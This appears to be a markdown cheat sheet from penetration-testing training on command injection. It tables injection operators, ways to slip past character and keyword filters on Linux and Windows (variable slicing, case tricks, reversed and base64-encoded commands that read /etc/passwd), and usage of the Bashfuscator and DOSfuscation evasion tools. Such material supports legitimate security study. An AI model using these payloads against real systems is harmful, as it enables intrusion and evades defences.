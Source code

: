 # Command Injection
- [Linux](#linux)
- [Windows](#windows)
- [Evasion Tools](#evasion-tools)


## Injection Operators

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon         | `;`                 | `%3b`                 | Both             |
| New Line         | `\n`                 | `%0a`                 | Both             |
| Background       | `&`                  | `%26`                 | Both (second output generally shown first) |
| Pipe            | `\|`                   | `%7c`                 | Both (only second output is shown) |
| AND             | `&&`                  | `%26%26`              | Both (only if first succeeds) |
| OR              | `\|\|`                  | `%7c%7c`              | Second (only if first fails) |
| Sub-Shell       | \` \`                | `%60%60`              | Both (Linux-only) |
| Sub-Shell       | `$()`                 | `%24%28%29`           | Both (Linux-only) |

---

> [!TIP]
> we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

## Linux  
### Filtered Character Bypass  

| Code | Description |
|------|------------|
| `printenv` | Can be used to view all environment variables |

#### Spaces  

| Code | Description |
|------|------------|
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |

#### Other Characters  

| Code | Description |
|------|------------|
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` → `\`) |


### Blacklisted Command Bypass  

#### Character Insertion  

| Code | Description |
|------|------------|
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |

#### Case Manipulation  

| Code | Description |
|------|------------|
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |

#### Reversed Commands  

| Code | Description |
|------|------------|
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |

#### Encoded Commands  

| Code | Description |
|------|------------|
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---

## Windows  
### Filtered Character Bypass  

| Code | Description |
|------|------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |

#### Spaces  

| Code | Description |
|------|------------|
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |

#### Other Characters  

| Code | Description |
|------|------------|
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |


### Blacklisted Command Bypass  

#### Character Insertion  

| Code | Description |
|------|------------|
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |

#### Case Manipulation  

| Code | Description |
|------|------------|
| `WhoAmi` | Simply send the character with odd cases |

#### Reversed Commands  

| Code | Description |
|------|------------|
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |

#### Encoded Commands  


| Code | Description |
|------|------------|
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA'))) "` | Execute b64 encoded string |


## Evasion Tools

- **Linux (Bashfuscator)**
```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user

cd ./bashfuscator/bin/
./bashfuscator -h

./bashfuscator -c 'cat /etc/passwd'
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

- **Windows (DOSfuscation)**
```bat
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```
## Resources
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)